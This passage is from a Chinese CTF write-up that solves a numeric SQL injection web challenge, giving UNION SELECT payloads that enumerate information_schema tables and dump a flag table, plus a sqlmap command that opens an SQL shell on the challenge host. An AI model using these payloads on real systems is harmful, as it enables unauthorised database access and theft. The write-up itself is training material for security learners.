 #### 总结

- Web基础
	- Cookie



### [注入灵魂](https://www.nssctf.cn/team/problem/6306)

#### 题目描述

***打败你自己的不一定是敌人，还可能是你自己写的逆天代码***

欢迎来到 Web 曾经最辉煌，现在最冷淡的分支之一。

#### 解题思路

打开网站，可以看到源码是一个 sql 查询：

![image-20250116170633713](BestiCTF S1 Week15.assets/image-20250116170633713.png)

根据左边的源码，可以判断其为数字型注入。

##### 手注

首先获取表名：`1 union SELECT 1,TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA=database();`，可以看到有个表为 flag。

![image-20250116172202058](BestiCTF S1 Week15.assets/image-20250116172202058.png)

直接 `1 union SELECT * from flag` 得到 flag。

![image-20250116172300322](BestiCTF S1 Week15.assets/image-20250116172300322.png)

##### sqlmap

可以看到注入的参数为param id，于是命令如下：

```shell
sqlmap -u "http://node6.anna.nssctf.cn:20015/?id=1" -f --tables --sql-shell
```

得到shell：

![image-20250116172548768](BestiCTF S1 Week15.assets/image-20250116172548768.png)

随后输入命令 `SELECT TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA=database();`，发现有个表名为 flag，随后输入命令 `select * from flag` 得到 flag。

![image-20250116172702327](BestiCTF S1 Week15.assets/image-20250116172702327.png)

#### 总结

- sql注入



### [成为她的唯一](https://www.nssctf.cn/team/problem/6305)
